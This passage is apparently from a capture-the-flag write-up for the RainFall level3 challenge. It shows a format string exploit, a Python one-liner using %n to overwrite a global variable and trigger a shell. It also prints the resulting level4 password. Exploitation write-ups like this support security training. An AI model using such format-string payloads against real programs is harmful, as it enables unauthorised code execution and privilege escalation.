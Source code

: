 ### 12. Create Working Exploit
```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' | ./level3
# This prints:
# - 4 bytes (address 0x804988c)  
# - 60 characters (%60c)
# - Total: 64 characters
# - %4$n writes "64" to address at stack position 4 (our target address)
```

### 13. Execute the Exploit
```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' | ./level3
                                                            Wait what?!
cat /home/user/level4/.pass
```

**Success!** The message "Wait what?!" indicates we triggered the system() call.

### 14. Get Interactive Shell
```bash
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
                                                            Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36efb19b6ba64be8f1e4f4f5b9ef96c4b12c2db4ee9bd2f2a2
exit
level3@RainFall:~$
```

### 15. Retrieve the Flag
```bash
level3@RainFall:~$ su level4
Password: b209ea91ad69ef36efb19b6ba64be8f1e4f4f5b9ef96c4b12c2db4ee9bd2f2a2
level4@RainFall:~$ 
```

## Solution Summary

### Command:
```bash
python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' | ./level3
```

### Alternative (interactive):
```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
```

### Vulnerability:
- **Format string bug**: `printf(user_input)` instead of `printf("%s", user_input)`
- **Memory write capability**: `%n` format specifier writes to arbitrary memory
- **Conditional execution**: Program calls `system()` if global variable equals 64
- **Memory corruption**: Used format string to write 64 to target address
